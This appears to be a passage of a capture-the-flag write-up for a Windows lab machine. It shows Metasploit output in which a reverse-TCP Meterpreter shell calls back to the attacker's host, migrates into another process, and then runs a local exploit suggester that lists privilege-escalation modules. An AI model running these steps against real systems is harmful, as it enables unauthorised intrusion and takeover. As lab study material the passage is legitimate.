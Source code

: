 ```console
[*] Started reverse TCP handler on 10.10.16.24:1234
[*] Sending stage (175686 bytes) to 10.129.91.236
[*] Session ID 4 (10.10.16.24:1234 -> 10.129.91.236:49161) processing AutoRunScript 'multi_console_command -r /home/qwe/script/automigrate.rc'
[*] Running Command List ...
[*]     Running command run post/windows/manage/migrate
[*] Running module against CHATTERBOX
[*] Current server process: AChat.exe (2964)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 2340
[+] Successfully migrated into process 2340
[*]     Running command getuid
Server username: CHATTERBOX\Alfred
[*]     Running command getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

[*] Meterpreter session 4 opened (10.10.16.24:1234 -> 10.129.91.236:49161) at 2024-02-21 14:37:04 +0800
```

## Privilege Escalation

### msf: local_exploit_suggester

```console
post/multi/recon/local_exploit_suggester
----------------------------------------
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.91.236 - Collecting local exploits for x86/windows...
[*] 10.129.91.236 - 190 exploit checks are being tried...
[+] 10.129.91.236 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.91.236 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.91.236 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.91.236 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.129.91.236 - Valid modules for session 4:
============================

```